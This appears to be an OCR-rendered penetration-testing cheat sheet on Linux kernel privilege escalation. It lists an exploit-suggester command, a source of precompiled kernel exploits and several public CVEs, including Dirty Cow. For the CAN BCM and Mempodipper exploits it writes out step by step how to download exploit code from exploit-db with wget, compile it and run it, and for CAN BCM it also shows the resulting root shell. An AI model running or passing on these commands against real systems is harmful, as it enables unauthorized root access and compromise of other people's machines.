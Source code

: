 ## Kernel Exploit Suggestions for Kernel Version 3.0.0
./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0

## Precompiled Linux Kernel Exploits - Super handy if GCC is not installed on the target machine!
https://www.kernel-exploits.com/

## CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32) ( https://www.exploit-db.com/exploits/14814/ )

wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
 $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
 $ ./i-can-haz-modharden
 [+] launching root shell!
 
 id
 uid=0(root) gid=0(root)

## CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
https://www.exploit-db.com/exploits/15285/

## CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
https://git.zx2c4.com/CVE-2012-0056/about/

wget -O exploit.c http://www.exploit-db.com/download/18411 
gcc -o mempodipper exploit.c  
./mempodipper

## CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
https://dirtycow.ninja/

First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016


